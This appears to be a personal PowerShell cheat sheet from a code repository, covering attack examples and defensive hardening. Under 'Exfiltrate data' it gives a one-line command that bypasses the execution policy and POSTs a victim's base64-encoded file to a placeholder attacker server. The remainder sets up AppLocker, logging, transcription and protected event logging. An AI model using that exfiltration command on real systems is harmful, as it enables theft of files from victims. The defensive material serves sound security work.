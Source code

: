 # Powershell Commands

Personal sheet for Powershell 🧢

## Attacking techniques: practical examples

### HTTP requests

#### Exfiltrate data

```powershell
PowerShell.exe -ex bypass -noprofile -c Invoke-WebRequest -uri {ATTACKER_IP_SERVER} -Method POST -Body ([System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes('c:\Users\Victim\path\to\data.xml')))
```

## Defense

### Applocker

[Overview](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview)

### GPOs (Group policies)

#### Module and Script block logging

Go to Windows Configuration > Policies > Administrative Settings > Windows Components > Windows PowerShell

* Turn on Module Logging
* Turn on PowerShell Script Block Logging

or with Powershell:

```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging"  -Name EnableModuleLogging -Value "1"
Set-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name EnableScriptBlockInvocationLogging -Value "1"
```

Then, it's possible to connect logs to a SIEM or a similar software.

#### Enable transcripting

GPO or:

```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" -Name "EnableTranscripting" -Value "1"
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" -Name "EnableInvocationHeader" -Value "1"
```

#### Protected Event Logging

Go to Windows Components -> Administrative Templates -> Event Logging: "Enable Protected Event Logging"
